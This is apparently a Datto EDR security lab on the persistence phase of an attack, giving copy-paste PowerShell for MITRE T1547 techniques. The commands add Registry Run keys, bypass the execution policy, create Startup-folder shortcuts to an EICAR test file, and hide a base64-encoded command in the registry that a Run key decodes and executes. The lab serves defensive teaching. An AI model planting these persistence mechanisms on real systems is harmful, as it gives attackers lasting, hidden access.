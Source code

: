 ```yaml
---
Title: ATT&CK - Persistence Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
External:
- attack.mitre.org
- allitshop.infocyte.com
- www.eicar.org/download/eicar.com.txt
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

In Lab 5, we will demonstrate some popular places to place malware references that will cause their malware to keep coming back. Autostart locations like Registry Run Keys or files in User Startup Folders will cause that program to execute when a user logs in or the system reboots. Each autostart may have it’s own trigger for automated execution

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Persistence phase of an attack
2. Demonstate some popular persistence methods and locations
   

## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions


For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Registry Run Key Foothold
> *The most popular persistence location is to place a reference to your malware file or command in the registry's Run Keys. All files referenced in a run key will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate how this might look if the malware was not detected as malware by loading up our calculator. After that we'll try reference some malware using an EICAR file (fake malware that will flag on AV)

Add a path reference to the **Registry Run Keys**. 
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Registry Run key with calc.exe
	Write-Host "Adding T1547.001 - Registry Run Key Foothold w/ simulated undetectable malware (calc)"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /t REG_SZ /F /D "C:\Windows\System32\calc.exe -i $n"
	#REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /f
	```

### 2. Autostart Folder Shortcut
> *Another popular persistence location is to simply place a shortcut to the malware in the Windows autostart folder. All files referenced here will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate this by creating a shortcut to an EICAR file (test malware that will flag on all AV engines) and placing it in either the system startup folder or user startup folder:
>
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\*.lnk
> OR
> $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\*.lnk


Add a shortcut to malware in the **Autostart Folder**
- MITRE ATT&CK Technique: [ATT&CK T1547.009 - Persistence - Autostart Folder](https://attack.mitre.org/techniques/T1547/009)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR test string
	Write-Host "Adding T1547.009 - Malicious Shortcut Link Persistence with detectable malware (EICAR File)"
	Write-Host "Writing EICAR file manually..."

	$EICARString = 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*'
	$EICARString | Out-File -Encoding ASCII -FilePath "$env:USERPROFILE\EICAR.exe" -Force
	$startupShortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\evil_calc.lnk"
	$desktopShortcut = "$env:USERPROFILE\Desktop\evil_calc.lnk"

	$cmd = @"
	`$WScriptShell = New-Object -ComObject WScript.Shell
	`$Shortcut1 = `$WScriptShell.CreateShortcut('$startupShortcut')
	`$Shortcut1.TargetPath = '$env:USERPROFILE\EICAR.exe'
	`$Shortcut1.Save()

	`$Shortcut2 = `$WScriptShell.CreateShortcut('$desktopShortcut')
	`$Shortcut2.TargetPath = '$env:USERPROFILE\EICAR.exe'
	`$Shortcut2.Save()
	"@

	$cmd += "`nStart-Sleep -m $n"

	powershell.exe -NoProfile -Command $cmd
	```


### 3. Fileless Runkey Persistence
> *A more advanced form of persistence won't reference a file on disk, it will hide encoded and obfuscated code in the registry somewhere and run the command using the same persistence method.*
>
> *We will demonstrate this by encoding a simple command and placing that content in a random registry location. Then we will have the runkeys start powershell and execute that content. Any scan of the runkeys will just show a powershell command.*


Create a fileless reference in the **Registry Run Keys**
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.001 - Registry Run Key w/ Fileless Powershell Command"
	$Cmd = "Write-Host -ForegroundColor Green 'Mess with the Best, Die like the rest!'; Start-Sleep -m $n"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($Cmd))
	# Add encoded Command to random registry location
	REG ADD "HKEY_CURRENT_USER\Software\Classes\RedTeamTest" /v RT /t REG_SZ /d $EncodedCommand /f
	
	# Add powershell reference to registry run key that will have it grab and execute the encoded command hidden in the registry
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team Fileless" /t REG_SZ /F /D "powershell.exe -nop -command '$cmd'"
	#Remove-Item HKCU:\Software\Classes\RedTeamTest -Force -ErrorAction Ignore
	```

- Go ahead and run the command hidden in the registry now:
	```Powershell
	# Run the command from the registry on demand:
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```
	s> If you are successful, powershell will display a message in green.
